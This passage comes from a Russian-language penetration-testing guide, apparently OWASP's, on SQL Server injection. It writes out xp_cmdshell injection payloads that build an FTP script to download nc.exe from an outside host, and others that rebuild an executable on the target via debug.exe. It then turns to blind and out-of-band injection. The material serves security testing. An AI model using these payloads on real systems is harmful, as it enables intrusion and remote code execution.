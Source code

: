 ```sql
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

На этом этапе загрузится и будет доступен `nc.exe`.

Если FTP не разрешён межсетевым экраном, у нас есть обходной путь, который использует отладчик Windows, `debug.exe`, который устанавливается по умолчанию на всех машинах Windows. `Debug.exe` поддерживает скрипты и может создать исполняемый файл, выполнив соответствующий скрипт. Что нам нужно сделать, так это преобразовать исполняемый файл в скрипт отладки (который представляет собой ASCII-файл), загрузить его построчно и, наконец, вызвать для него `debug.exe`. Существует несколько инструментов, которые создают такие отладочные файлы (например, makescr.exe от Ollie Whitehouse и dbgtool.exe от toolcrypt.org). Таким образом, запросы для инъекций будут следующими:

```sql
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

На данный момент наш исполняемый файл доступен на целевой машине и готов к выполнению. Существуют инструменты, которые автоматизируют этот процесс, в первую очередь `Bobcat`, работающий в Windows, и `Sqlninja`, работающий в Unix (см. Инструменты внизу этой страницы).

### Получение информации, когда она не отображается (внеполосно)

Не все потеряно, если web-приложение не даёт никакой информации, даже содержательных сообщений об ошибках (см. [Слепое внедрение SQL](https://owasp.org/www-community/attacks/Blind_SQL_Injection)). Например, может случиться так, что у вас есть доступ к исходному коду (например, потому что web-приложение основано на программном обеспечении с открытым исходным кодом). Тогда тестировщик может использовать все уязвимости SQL-инъекций, обнаруженные в автономном режиме в web-приложении. Хотя IPS может остановить некоторые из этих атак, лучше всего действовать следующим образом: разработать и протестировать атаки на тестовом стенде, созданном для этой цели, а затем провести эти атаки на тестируемое web-приложение.

Другие варианты внеполосных атак описаны выше в Примере 4.

### Слепые атаки SQL-инъекций

#### Метод проб и ошибок

В качестве альтернативы можно сыграть в рулетку. То есть злоумышленник может предположить, что в web-приложении возможна слепая или внеполосная SQL-инъекция. Затем он выберет вектор атаки (например, через web), [использует векторы для фаззинга](../../6-Appendix/C-Fuzz_Vectors.md) для этого канала и наблюдает за реакцией. Например, если web-приложение ищет книгу с помощью запроса

